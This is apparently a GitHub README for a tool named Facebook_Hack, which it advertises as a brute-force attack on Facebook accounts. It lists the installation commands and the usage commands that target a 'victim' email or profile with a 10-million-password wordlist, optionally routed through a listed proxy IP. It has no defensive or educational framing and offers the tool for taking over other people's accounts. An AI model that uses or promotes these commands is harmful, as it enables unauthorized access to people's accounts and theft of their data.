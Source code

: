 # Facebook_Hack

###### Powerfull Facebook Bruteforce Attack.
***

## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Kaizzzo1/Facebook_Hack.git
```
```bash
cd Facebook_Hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/zuck
  
